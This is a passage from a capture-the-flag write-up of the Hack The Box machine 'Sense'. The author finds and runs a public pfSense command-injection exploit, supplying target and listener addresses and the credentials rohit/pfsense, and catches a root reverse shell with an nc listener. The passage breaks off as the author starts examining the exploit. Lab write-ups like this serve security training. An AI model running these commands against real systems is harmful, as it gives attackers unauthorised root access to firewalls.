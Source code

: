 ```
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                    | php/webapps/43560.py
```
So let’s see what it is.

```
kali@kali:~/htb/Sense$ searchsploit -x 43560
'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''
```

Awesome, let’s download it and see if it works:

```
kali@kali:~/htb/Sense$ searchsploit -m 43560
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/htb/Sense/43560.py


kali@kali:~/htb/Sense$ python3 43560.py --rhost=10.129.88.79 --lhost=10.10.14.21 --lport=1337 --username=rohit --password=pfsense 
CSRF token obtained                                                                                                                 
Running exploit...                                                                                                                  
Exploit completed                                                                                                                   
kali@kali:~/htb/Sense$  
```

And on the listener:

```
kali@kali:~/htb/Sense$ sudo rlwrap nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.88.79 57651
sh: can't access tty; job control turned off
# whoami
root
# 
```

Excellent!

But I also want to do a detailed examination of the exploit more info here https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/:

The exploit uses our login info to inject code here:

